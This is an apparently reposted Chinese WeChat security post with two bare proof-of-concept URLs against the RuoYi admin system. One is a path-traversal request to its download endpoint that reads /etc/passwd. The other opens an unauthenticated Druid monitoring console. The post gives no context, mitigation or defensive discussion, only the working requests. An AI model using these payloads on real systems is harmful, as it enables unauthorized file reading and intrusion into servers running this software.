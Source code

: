 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/bRsthKBavjgXO7FFCHxa3Q)

![](https://mmbiz.qpic.cn/mmbiz_gif/3xxicXNlTXLicwgPqvK8QgwnCr09iaSllrsXJLMkThiaHibEntZKkJiaicEd4ibWQxyn3gtAWbyGqtHVb0qqsHFC9jW3oQ/640?wx_fmt=gif)  

> **文章来****源：****Khan 安全攻防实验室**

![](https://mmbiz.qpic.cn/mmbiz_png/aPmkR80bcV2rNCKBPxXmLVicN5YuSAlibB4uGpbmrIMQoDOL46eGNwK5K6EtU3WwjOhDIIQ74MIqbM26Ef02eVFw/640?wx_fmt=png)

若依管理系统后台任意文件读取

POC：

https://xxx.xxx.xxx.xxx/common/download/resource?resource=/profile/../../../../etc/passwd

若依管理系统未授权访问

POC：  

http://xxx.xxx.xxx.xxx/prod-api/druid/index.html

![](https://mmbiz.qpic.cn/mmbiz_jpg/3xxicXNlTXLicjiasf4mjVyxw4RbQt9odm9nxs9434icI9TG8AXHjS3Btc6nTWgSPGkvvXMb7jzFUTbWP7TKu6EJ6g/640?wx_fmt=jpeg)![](https://mmbiz.qpic.cn/mmbiz_png/3xxicXNlTXLib0FWIDRa9Kwh52ibXkf9AAkntMYBpLvaibEiaVibzNO1jiaVV7eSibPuMU3mZfCK8fWz6LicAAzHOM8bZUw/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_gif/NZycfjXibQzlug4f7dWSUNbmSAia9VeEY0umcbm5fPmqdHj2d12xlsic4wefHeHYJsxjlaMSJKHAJxHnr1S24t5DQ/640?wx_fmt=gif)